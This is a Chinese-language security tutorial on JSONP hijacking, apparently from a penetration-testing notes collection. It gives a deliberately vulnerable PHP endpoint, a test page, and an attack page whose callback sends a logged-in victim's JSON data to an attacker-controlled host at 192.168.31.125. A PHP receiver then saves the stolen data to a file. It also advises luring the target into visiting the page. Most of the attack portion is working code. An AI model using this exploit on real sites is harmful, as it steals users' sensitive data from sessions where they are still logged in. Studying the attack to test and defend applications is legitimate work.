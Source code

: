 JSON是一种轻量级的数据交换格式，而劫持就是对数据进行窃取（或者应该称为打劫、拦截比较合适。恶意攻击者通过某些特定的手段，将本应该返回给用户的JSON数据进行拦截，转而将数据发送回给恶意攻击者，这就是JSON劫持的大概含义。一般来说进行劫持的JSON数据都是包含敏感信息或者有价值的数据。

攻击方法与csrf类似，都是需要用户登录帐号，身份认证还没有被消除的情况下访问攻击者精心设计好的的页面。就会获取json数据，把json数据发送给攻击者。

**1、测试流程与方法**

找到json的类型页面，写好攻击页面，诱导目标访问页面，从而获取数据。

靶机测试

```php
<?php
header('Content-type: application/json');
$callback = $_GET['callback'];
print $callback.'({"id" : "1","name" : "moonsec","email":"moon@moonsec.com"});';
?>
```

**2、测试页面 json.html**

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>jsonp劫持</title>
    <script src="http://apps.bdimg.com/libs/jquery/1.10.2/jquery.min.js"></script>
</head>
<body>
<script>function jsonp2(data){alert(JSON.stringify(data));}</script>
<script src="http://www.webtester.com/json.php?callback=jsonp2"></script>
</body>
</html>
```

![image-20210425235418633](../acess/image-20210425235418633.png) 

**3、劫持json发送返回数据 json_attack.html**

```php+HTML
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8">
		<title></title>
		<script src="http://apps.bdimg.com/libs/jquery/1.10.2/jquery.min.js"></script>
<script>
function test(data){
    //alert(v.name);
    var xmlhttp = new XMLHttpRequest();
    var url = "http://192.168.31.125/1.php?file=" + JSON.stringify(data);
    xmlhttp.open("GET",url,true);
    xmlhttp.send();
    }
</script>
<script src="http://www.webtester.com/json.php?callback=test"></script>
</head>
	<body>
	</body>
</html>
```

远程接收的1.php

```php
<?php
if($_GET['file']){
	file_put_contents('json.txt',$_GET['file']);
}
?>
```

诱导目标访问带有攻击代码的页面。

当用户访问这个页面的时候就会把数据发送到远程的服务器上的1.PHP 1.php就会把得到的数据生成json.txt 

![image-20210426000423364](../acess/image-20210426000423364.png) 